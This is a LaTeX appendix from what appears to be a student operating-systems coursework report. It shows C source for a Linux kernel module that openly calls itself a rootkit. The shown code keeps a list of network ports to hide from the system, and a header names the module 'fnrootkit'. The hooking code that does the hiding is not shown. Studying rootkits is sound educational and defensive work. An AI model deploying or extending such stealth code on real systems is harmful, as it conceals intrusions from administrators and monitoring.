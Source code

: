 \begin{lstlisting}[language=c,caption={Сокрытие сетевых сокетов, файл реализации},label=lst:net_c]
#include "../inc/net.h"

void net_port_hide(unsigned int port) {
    struct hidden_port *hp;

    hp = kmalloc(sizeof(*hp), GFP_KERNEL);
    if (!hp)
        return;

    hp->port = port;
    list_add(&hp->list, &hidden_port_list);
}

void net_port_show(unsigned int port) {
    struct hidden_port *hp;

    list_for_each_entry (hp, &hidden_port_list, list) {
        if (hp->port == port) {
            list_del(&hp->list);
            kfree(hp);
            return;
        }
    }
}

int is_port_hidden(unsigned int port) {
    struct hidden_port *hp;

    list_for_each_entry (hp, &hidden_port_list, list)
        if (hp->port == port)
            return 1;

    return 0;
}

void toggle_port_invisability(unsigned int port) {
    if (is_port_hidden(port))
        net_port_show(port);
    else
        net_port_hide(port);
}
\end{lstlisting}

\begin{lstlisting}[language=c,caption={Загружаемый модуль ядра, заголовочный файл},label=lst:rootkit_h]
#ifndef OSCW_FNROOTKIT_H_
#define OSCW_FNROOTKIT_H_

#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>

MODULE_LICENSE("GPL");
MODULE_AUTHOR("Krikov Anton ICS7-73B");
MODULE_DESCRIPTION(
    "LKM for subject \"Operating systems\" coursework. "
    "Implementation of a rootkit"
);

#define MODULE_NAME "fnrootkit"

#endif // OSCW_FNROOTKIT_H_
\end{lstlisting}

